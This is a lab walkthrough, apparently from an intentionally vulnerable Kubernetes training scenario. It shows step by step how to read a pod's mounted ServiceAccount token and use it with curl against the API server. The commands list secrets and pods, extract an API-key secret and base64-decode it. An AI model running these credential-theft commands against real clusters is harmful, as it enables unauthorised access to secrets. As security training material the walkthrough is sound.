 ## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

This deployment has a custom `ServiceAccount` mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services.

:::

* By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```bash
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```bash
ls -larth
```

![Scenario 16 checking service account](images/sc-16-2.png)

* Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges

* To point to the internal API server hostname, we can export it from environment variables

```bash
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```

* To set the path to the `ServiceAccount` token

```bash
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```

* To set the namespace value

```bash
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```

* To read the `ServiceAccount` bearer token

```bash
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
````

* To point the `ca.crt` path so that we can use it while querying in the `curl` requests

```bash
export CACERT=${SERVICEACCOUNT}/ca.crt
```

* Now we can explore the Kubernetes API with the token and the constructed queries

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

![Scenario 16 mapping credentials](images/sc-16-3.png)

* To query the available secrets in the `default` namespace run the following command

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

![Scenario 16 query secrets in default namespace](images/sc-16-4.png)

* To query the secrets specific to the namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

![Scenario 16 query secrets in specific namespace](images/sc-16-5.png)

* To query the pods in the specific namespace

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

![Scenario 16 query pods in specific namespace](images/sc-16-6.png)

:::tip

From here you can try and leverage all the possible Kubernetes operations. As Kubernetes itself works as an API service to create, and delete pods, etc.

:::

* Get the `k8svaulapikey` value from the secrets

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

![Scenario 16 get k8svaultapikey](images/sc-16-7.png)

* We can decode the base64 encoded value using the following command

```bash
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```